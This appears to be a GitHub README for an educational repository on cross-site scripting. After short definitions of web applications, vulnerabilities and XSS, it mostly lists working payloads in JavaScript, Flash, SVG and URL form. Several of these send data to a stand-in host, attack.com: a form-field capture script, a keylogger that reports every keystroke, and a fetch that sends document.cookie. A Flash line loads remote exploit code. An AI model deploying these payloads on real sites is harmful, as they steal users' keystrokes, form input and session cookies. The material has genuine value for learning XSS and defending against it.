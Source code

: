 <p align="center"><img align="center" width="500" height="500" src="./assets/Cross-site-scripting.gif"/></p>

# Cross-site Scripting
Before we start talking about Cross-site-scripting, I'd like to say that this repository is for educational purposes only, so that you can understand how this vulnerability works and how to avoid future problems with XSS.
### Web application
Basically, a web application is a piece of software that runs in a web browser, such as Chrome, Firefox etc. Why understand what a web application is? precisely because Cross-site-scripting (XSS) is caused by flaws in web applications themselves. Like Facebook, Olx etc. 

<code> You can learn more about web application here: https://aws.amazon.com/what-is/web-application/ </code>
### Vulnerability
Vulnerability is precisely a weakness in a web application that is exploited through bugs or the structure of the web application itself, if it has flaws, and it is in these flaws that people with malicious intentions can gain access to sensitive and important data.

<code>You can learn more about vulnerabilities here: https://owasp.org/www-community/vulnerabilities/.</code>
#### XSS
**Cross-site scripting** or **XSS** is an injection attack frequently based on JavaScript, but it can also include HTML or any type of code that our browser can execute. They inject into a web application with the focus of being executed by other users. In this way, it can send malicious code to other people who may mistakenly click on a script that captures sensitive or important information. 


### Payloads
Payloads are basically Javascript codes that we can execute on target users' computers.

Examples of payloads with **JavaScript**:

```javascript
Basic Alert Payload:
<script>alert("XSS")</script>


Redirection Payload:
<script>
    window.location.href="http://attack.com"
</script>


Form Data Capture Payload:
<script>
    document.location="http://attack.com/logger.php?data=" +    
    document.getElementById("form_id").value 
</script>

Keylogger Payload:
<script>
    document.onkeypress=function(e){
        fetch("http://www.attack.com/logger.php?k="+ e.key);
    }
</script>

AJAX Command Execution Payload:
<script>
    fetch("http://www.attack.com/log.php?data="+
    document.cookie);
</script>

```

Examples of payloads with **Flash**:
```javascript

Javascript Execution Payload:
<object data="http://www.attack.com/flash.swf"></object>

Redirection Payload (inside a .swf file):
getURL("javascript:window.location.href='http://attack.com'");

Remote Code Execution Payload (inside a .swf file):
load("http://www.attack.com/exploit.js");

```
Example of payload with **SVG**:
```javascript
SVG Payload:
<svg onload="alert('XSS')"></svg>


Alert Execution Payload:
<svg xmlns="http://www.one.site.org/1999/svg" onload="alert('XSS')"></svg>


Malicious Image Inclusion Payload:
<svg xmlns="http://www.one.site.org/1999/svg">
<image xlink:href="http://www.attack.com/malicious-image.jpg"/>
</svg>


Script Inclusion Payload in Mouseover Event:
<svg xmlns="http://www.one.site.org/1999/svg" width="300" height="200">
    <rect width="100%" height="100%" fill="white"/>
    <script type="text/javascript">
        alert('XSS');
    </script>
</svg>


Text Script Inclusion Payload:
<svg xmlns="http://www.one.site.org/1999/svg">
    <text font-family="Arial" font-size="20" x="0"
     y="20" fill="red">
        SVG XSS Example
     </text>
    <script type="text/javascript">
        alert('XSS');
    </script>
</svg>


Script Inclusion Payload in Links (with base64):
<svg xmlns="http://www.one.site.org/1999/svg" xmlns:xlink="http://www.one.site.org/1999/xlink">
<a xlink:href="data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4="> 
    Click me
</a>
</svg>

<svg xmlnx="http://www.one.site.org/1999/svg">
    <style>
    circle { fill: red;}
    .xss {color: red;}
    .xss {background-image: url("javascript:alert('XSS')");}
    </style>
</svg>
```
Examples of payloads with **URL**:
```javascript
Script Inclusion Payload in Query String:
http://www.target.com/search?query=<script>alert('XSS')</script>


Script Inclusion Payload in GET Parameters:
http://www.target.com/page?name=<script>alert('XSS')</script>


Script Inclusion Payload in Post Parameters:
POST /page HTTP/1.1
Host: www.target.com
Content-Type: application/x-www-form-urlencoded

name=<script>alert('XSS')</script>


Script Inclusion Payload in Hash Parameters:
http://www.target.com/page#<script>alert('XSS')</script>


Script Inclusion Payload in Reference Parameters:
http://www.target.com/page?ref=<script>alert('XSS')</script>


Script Inclusion Payload in Event Attributes:
<a href="javascript:alert('XSS')"> 
    Click Here
</a>

Script Inclusion Payload in HTTP Redirection:
Location: javascript:alert('XSS');


Script Inclusion Payload in Style Links:
<link rel="stylesheet" href="javascript:alert('XSS');">


Script Inclusion Payload in HREF Attribute:
<a href="javascript:alert('XSS')">
    Click here
</a>
```

